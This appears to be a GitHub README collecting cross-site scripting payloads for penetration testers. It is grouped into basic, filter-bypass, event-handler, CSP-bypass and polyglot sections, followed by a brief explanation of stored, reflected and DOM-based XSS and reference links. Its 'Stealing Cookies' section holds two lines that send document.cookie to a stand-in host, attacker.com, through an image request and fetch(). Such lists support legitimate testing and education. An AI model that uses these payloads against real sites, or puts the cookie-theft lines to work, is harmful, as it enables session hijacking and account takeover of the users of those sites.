 # XSS_Payload_list

# 🚀 XSS Payload Collection  

A curated list of **Cross-Site Scripting (XSS) payloads** for security researchers and penetration testers.  

---

## 🔍 What is XSS?  
**Cross-Site Scripting (XSS)** is a **web security vulnerability** that allows attackers to inject **malicious scripts** into web pages viewed by users.  

### 🔥 Why is XSS Dangerous?  
✔️ **Steal cookies & session tokens** (account hijacking)  
✔️ **Deface websites** (change page content)  
✔️ **Redirect users to malicious websites**  
✔️ **Keylogging** (steal keystrokes)  
✔️ **Bypass security policies**  

---

## 📜 XSS Payloads  

### 1️⃣ **Basic XSS Payloads**  
```html
<script>alert('XSS')</script>
"><script>alert(1)</script>
<svg onload=alert(1)>
```

### 2️⃣ **Bypassing Input Filters**  
```html
<scr<script>ipt>alert(1)</scr<script>ipt>
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<svg/onload=alert(1)>
```

### 3️⃣ **Stealing Cookies**  
```html
<script>new Image().src="http://attacker.com/steal.php?cookie="+document.cookie;</script>
<svg/onload="fetch('http://attacker.com/log?c='+document.cookie)">
```

### 4️⃣ **Event Handler Injection**  
```html
<IMG SRC="javascript:alert('XSS');">
<BODY ONLOAD=alert('XSS')>
<svg onmouseover="alert(1)">
```

### 5️⃣ **Bypassing CSP (Content Security Policy)**  
```html
<svg/onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<object data="javascript:alert(1)"></object>
```

### 6️⃣ **Polyglot XSS Payloads**  
```html
"><script>alert(1)</script>
'"><svg onload=alert(1)>
"><img src=x onerror=alert(1)>
```

---

## 📚 Understanding XSS Payloads  
XSS payloads are **malicious JavaScript or HTML code** designed to execute in a victim's browser. These payloads exploit insecure web applications to run unwanted scripts.  

### 📌 **Types of XSS Attacks**  
- **Stored XSS** – Malicious script is permanently stored on a website (e.g., comment section).  
- **Reflected XSS** – The payload is included in a request and reflected back (e.g., search bar).  
- **DOM-based XSS** – Manipulates the browser's Document Object Model (DOM) to inject scripts dynamically.  

---

## 📜 References & Learning Resources  

📌 **Understanding XSS Attacks:**  
🔹 **OWASP XSS Cheat Sheet** - [OWASP](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)  
🔹 **PortSwigger Web Security Academy** - [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)  
🔹 **PayloadsAllTheThings - XSS Collection** - [GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings)  

📌 **Books on Web Security & XSS:**  
📖 **The Web Application Hacker’s Handbook** - [Amazon](https://www.amazon.com/Web-Application-Hackers-Handbook-Exploiting/dp/1118026470)  
📖 **XSS Attacks: Cross-Site Scripting Exploits & Defense** - [Amazon](https://www.amazon.com/XSS-Attacks-Scripting-Exploits-Defense/dp/1597491543)  

---

## 🤝 Contributing  
Want to improve this collection? Feel free to submit a **pull request**!  

---

## 📜 License  
This repository is open-source and available under the **MIT License**.  

---

🚀 **Happy Ethical Hacking! Stay Secure!** 🔥  
